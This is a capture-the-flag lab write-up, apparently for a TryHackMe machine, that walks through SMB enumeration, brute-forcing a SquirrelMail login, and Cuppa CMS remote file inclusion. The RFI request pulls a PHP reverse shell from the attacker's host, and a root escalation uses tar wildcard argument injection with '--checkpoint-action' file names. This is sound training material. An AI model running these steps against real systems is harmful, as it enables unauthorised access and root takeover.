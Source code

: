 ENUMERATION:

Nmap:
![image](https://user-images.githubusercontent.com/126739122/234119747-5bda27b1-745c-44c4-975c-b4216a6d9143.png)

Browsed to http://10.10.183.158 and found this webpage:
![image](https://user-images.githubusercontent.com/126739122/234119768-2e15016f-1b71-4fb6-b364-37bac7320e5c.png)

Seems to be a standard search engine page with no outstanding vulnerabilities or information in source code for exploitation or foothold.

Ran gobuster to enumerate any hidden directories for this web server and found the following:
![image](https://user-images.githubusercontent.com/126739122/234119798-4ba977e2-381f-4431-8d9e-0047f013dcca.png)

Attempted to browse to /admin directory > received 403 error code
Navigated to /squirrelmail directory and found the following login page:
![image](https://user-images.githubusercontent.com/126739122/234119820-bc13b261-8c63-4eba-8531-8db4ae9d9c3f.png)

Tried entering default admin credentials (admin:admin) but that did not work and redirected me back to login page
The TryHackMe questions for this room are used to guide the progress through the machine and hint that we should be looking for Miles' credentials for this login webpage.

At this point, I have not found any credentials for any users and need to do further enumeration/information gathering.
Looking back at the Nmap scan, it shows that port 445 is also open on this machine.

Ran smbclient to look for any public shares that may contain some credentials and received the following output:
![image](https://user-images.githubusercontent.com/126739122/234119862-f5d8e78a-e998-4491-ba05-40fae37d41b0.png)

"milesdyson" share requires a username and password to connect and access those files
"anonymous" share does not require a password and found a couple of helpful files (attention.txt & log1.txt)

attention.txt states that all users passwords have been changed for SMB and everyone needs to reset it ASAP
log1.txt seems to be a wordlist of about 30 possible passwords that could be used for brute-forcing

Using BurpSuite, I captured a login request to the SquirrelMail login page and tried logging in using milesdyson:test
Sent this captured request to Intruder and attempted a brute-force attack on this login page for milesdyson using the log1.txt file

After a couple of minutes, BurpSuite finally found the credentials of milesdyson:cyborg007haloterminator

Upon logging into Miles' inbox, there is an email regarding his SMB password change/reset
Using the provided password in Miles' email, we can now log into the "milesdyson" share

smbclient -U milesdyson '\\10.10.70.100\milesdyson'
	- Found 1 interesting file in Miles' share (important.txt)

important.txt contains the following:
![image](https://user-images.githubusercontent.com/126739122/234119878-ecc3aeba-9a40-4267-b0f1-b71bf497acf1.png)

#1 on this file seems to hint towards a hidden directory for this web server
Browsed to http://10.10.70.100/45kra24zxs28v3yd/ and found this webpage:
![image](https://user-images.githubusercontent.com/126739122/234119905-cb09b955-5af8-4d61-a2e3-cd091fd0b148.png)

There is nothing hidden in the source code for this webpage

Tried running gobuster one more time on this newfound webpage
	- found /administrator directory

INITIAL FOOTHOLD:

Browsed to http://10.10.70.100/45kra24zxs28v3yd/administrator/ and found this login page:
![image](https://user-images.githubusercontent.com/126739122/234119929-6d250e9e-c321-4f6b-8c05-d905c4a3f902.png)

Tried using the same SMB and SquirrelMail creds for Miles on this login page, but neither worked
Again, I do not have any other credentials or brute force attempts to try with this login page

Tried searching Cuppa CMS on google for any known vulnerabilities
Found https://www.exploit-db.com/exploits/25971
Shows that Cuppa CMS is vulnerable to remote file inclusion and can be used to gain reverse shell or remote code execution

Browsed to http://10.10.70.100/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.47.128:8000/php_rev_shell.php
I now have an active reverse shell for this machine as www-data

PRIVILEGE ESCALATION:

Transferred over LinPEAS from my local machine into this reverse shell
LinPEAS located a cronjob that is run as root every minute (/home/milesdyson/backups/backup.sh)
![image](https://user-images.githubusercontent.com/126739122/234119966-0eb803ad-b6de-4f78-b9cf-38e69013a4bc.png)

This second command that is run on the cronjob "tar cf /home/milesdyson/backups/backup.tgz * " the * wildcard can be used for privilege escalation up to root

REF: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
Created a shell.sh script in /var/www/html that will change the /bin/bash binary to SUID
Also created "--checkpoint-action=exec=sh shell.sh" and "--checkpoint=1" files

After about 1 minute, /bin/bash is now a SUID binary
Ran /bin/bash -p
Now I have root privileges

FOUND BOTH USER AND ROOT FLAG
